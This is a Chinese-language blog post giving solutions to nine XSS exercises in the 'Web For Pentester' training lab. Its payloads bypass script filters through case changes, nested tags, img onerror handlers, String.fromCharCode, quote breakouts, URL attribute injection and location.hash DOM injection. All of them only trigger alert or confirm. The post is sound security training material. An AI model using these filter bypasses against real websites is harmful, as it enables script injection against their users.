 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/cd417941f3ec3445dafb444f43cf32c9.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```



### XSS Example 1
直接输出无任何过滤：

**name=\<script>alert(/XSS/)\</script>**

### XSS Example 2s
过滤掉了\<script>标签，通过大小写进行绕过：

**name=\<Script>alert(/XSS/)\</Script>**

### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：


**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**

### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：


**name=\<img src=1 onerror="alert(/XSS/)">**

### XSS Example 5
alert被过滤，但prompt、confirm函数可使用；这里同样可以使用String.fromCharCode来绕过：


**name=\<img src=1 onerror="confirm(/XSS/)">**

> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
> 针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert(/XSS/);转换为
> String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 88, 83, 83, 47, 41)那么我们的XSS语句就变成了
> **\<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)\</script>** 
> String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串，在harkbar中的XSS功能中有这个功能可直接使用

### XSS Example 6
F12查看元素，发现输出在script标签中 *$a= "hacker";* ，那么直接闭合双引号就好：


**name=XSS";alert($a);//**

### XSS Example 7
通过Example 6的方法发现双引号被HTML编码了，而且在$a=''处添加了单引号来申明变量内容，那么同样依照闭合的原则将双引号改为单引号即可


**name=XSS';alert($a);//**

### XSS Example 8
查询功能，将查询内容反馈至页面，那么也就是存储型XSS，使用\<script>标签进行测试，通过查看源码发现<>尖括号被HTML编码，一般来说XSS漏洞修复若将尖括号进行编码后输出可视为安全的，但发现这里的form表单里的url可为任意构造，尝试访问如下带有payload的url成功
**/xss/example8.php/" onmouseover="alert(1)**

### XSS Example 9
同样审查元素，发现这里是一个很经典的DOM-Based XSS，使用了location.hash.substring(1)，那么直接构造
**/xss/example9.php#\<script>alert(/XSS/)\</script>**
